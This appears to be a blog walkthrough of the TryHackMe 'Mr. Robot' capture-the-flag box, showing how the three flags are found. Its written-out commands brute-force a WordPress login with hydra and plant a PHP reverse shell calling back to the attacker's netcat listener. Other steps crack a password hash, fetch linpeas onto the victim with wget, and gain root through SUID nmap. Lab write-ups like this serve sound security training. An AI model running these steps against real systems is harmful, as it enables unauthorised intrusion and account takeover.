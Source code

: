 ```yaml
---
layout: post
title: " Mr. Robot - TryHackMe"
date: 2020-07-12
excerpt: "Walkthrough for Mr. Robot on TryHackme"
tags: [Mr. Robot, TryHackMe]
comments: false
---
```


Below are the steps to get the 3 flags on the Mr. Robot box on [TryHackMe](https://www.tryhackme.com).

First, let's run nmap with **nmap -sC -sV -O -T4 [machine ip]**. This will return ssh which is marked as closed, and both ports 80 and 443 which are open.

![Mr. Robot 1](/assets/img/MrRobot1.png)

Launching both sites leads to the same terminal window which seems to have some of the propaganda from fsociety. Let's use gobuster to enumerate the webserver with **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt**.

After a bit, several interesting results come up as shown below.

![Mr. Robot 2](/assets/img/MrRobot2.png)

The hint for the first question also mentions **robots**, so let's look at **http://[machine ip]/robots.txt**. This leads to the following:

![Mr. Robot 3](/assets/img/MrRobot3.png)

Let's visit key-1-of-3.txt by going to **http://[machine ip]/key-1-of-3.txt**. This is where you will find the first key to this challenge.

![Mr. Robot 3 key1](/assets/img/MrRobot4.png)

Next, let's go to **http://[machine ip]/fsocity.dic**. This is a dictionary file with a huge list of words that may prove useful later on. The other useful thing we found was that this appears to be a WordPress site, so let's go to **http://[machine ip]/wp-login**. This brings you to a WordPress login page as expected.

![Mr. Robot 5](/assets/img/MrRobot5.png)

WordPress contains a pretty poor security practice where it will tell you if a username does not exist. For example, I attempted with the user admin, and received this error message.

![Mr. Robot 6](/assets/img/MrRobot6.png)

In a real world scenario, you would probably create a list of users with cewl based off of the website or use some other dictionary file, but in this case, I guessed a few characters from the television series, which led to **Elliot** being uncovered as the login name.

![Mr. Robot 7](/assets/img/MrRobot7.png)

Now that we had a username to login with, let's use hydra to brute force the password. The fsocity.dic file we saved earlier should be a good place to start, however, it has over 800,000 records in it. I assumed there were some duplicates, so I used sort and uniq to make it a more manageable list with. The command to run is **sort fsocity.dic\|uniq > UniquePasswords.txt**. This reduced the list down to around 11,000 unique entries and saved it to UniquePasswords.txt, which will run much quicker when brute forcing passwords. 

![Mr. Robot 8](/assets/img/MrRobot8.png)

The command to brute force in hydra is **hydra -l Elliot -P ~/Downloads/UniquePasswords.txt [machine ip] -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'**. This will return Elliot's password.

![Mr. Robot 9](/assets/img/MrRobot9.png)

Now that we have Elliot's password, let's login to the WordPress site. Once here, let's upload a reverse PHP shell. The one I recommend using is from [PentestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Adjust the IP/Port to reflect your attacker machine's IP and the port you wish to connect with and save the shell. Next, let's click on **Appearance** followed by **Editor** on the left hand side. Choose one of the existing php files (I used **404.php**) to view it's contents, delete the contents of this file, and paste the reverse shell into that file.

![Mr. Robot 10](/assets/img/MrRobot10.png)

When done, click on **Update File** at the bottom of the file to save it. 

![Mr. Robot 11](/assets/img/MrRobot11.png)

On your attacker pc, run **nc -nvlp [port number]** where port number is the one selected in the php reverse shell earlier. Now, try to navigate to a random page to trigger a 404 error, which should launch the reverse shell. 

![](/assets/img/MrRobot12.png)

![Mr. Robot 13](/assets/img/MrRobot13.png)

We now have a reverse shell. **whoami** reveals we are running as user **daemon** in the root directory. Let's navigate to home with **cd home** and run **ls** to view it's contents. There is a **robot** user folder here. Let's run **cd robot** followed by **ls** and we will see **key-2-of-3.txt** and **password.raw-md5**. **cat key-2-of-3.txt** will give you the 2nd key to this challenge, but we are not able to access it as daemon.

![Mr. Robot 14](/assets/img/MrRobot14.png)

Let's **cat** **password.raw-md5** and we will see that we have the hash for robot. 

![Mr. Robot 15](/assets/img/MrRobot15.png)

Let's copy and save this so we can crack it with john. Once you saved this locally (I saved it to a file called **robothash.txt**), run the following command: **john robothash.txt --format="Raw-MD5" -wordlist=/usr/share/wordlists/rockyou.txt**. Within a few moments you will crack this password. Raw-MD5 was selected as the format based on the extension in the file the hash came from (password.raw-md5).

![Mr. Robot 16](/assets/img/MrRobot16.png)

Since ssh is blocked, let's try to run **su robot** to swap from daemon to the robot user . We aren't able to because we're not running a TTY terminal.

![Mr. Robot 17](/assets/img/MrRobot17.png)

Let's run **python -c 'import pty; pty.spawn("/bin/sh")'** to upgrade our shell and run **su robot** again. Now we are able to swap over to robot with the password we uncovered with john.

![Mr. Robot 18](/assets/img/MrRobot18.png)

Let's run **cat key-2-of-3.txt** and we are able to uncover this flag.

![Mr. Robot 19](/assets/img/MrRobot19.png)

At this point, we need to enumerate to figure out how we are going to escalate privileges to root. On our attacker machine, lets serve up a python server with **python3 -m http.server**. Next, on our victim machine, run **cd /tmp** followed by **wget http://[your attacker ip]:8000/linpeas.sh** to download linpeas to the tmp directory of our victim. Next, run **chmod 777 linpeas.sh** to make it executable.

![Mr. Robot 20](/assets/img/MrRobot20.png)

Next, run **./linpeas.sh** to start enumerating the host. Partially through the script there is a list of SUID programs, and **nmap** stands out.

![Mr. Robot 21](/assets/img/MrRobot21.png)

Let's navigate to that folder with **cd /usr/local/bin** and run **nmap --help**. This is an older version of nmap (3.81), and it has an interactive mode that can be ran with the --interactive flag. 

![Mr. Robot 22](/assets/img/MrRobot22.png)

Let's run **nmap --interactive**. This is an old version of nmap, and this can be utilized to get a root shell since it is running as root due to the SUID flag. The command to run once in interactive mode is **!sh**

![Mr. Robot 23](/assets/img/MrRobot23.png)

Let's run **cd /root** followed by **ls**. You will see the 3rd key file there. Run **cat key-3-of-3.txt** to get the final key!

![Mr. Robot 24](/assets/img/MrRobot24.png)
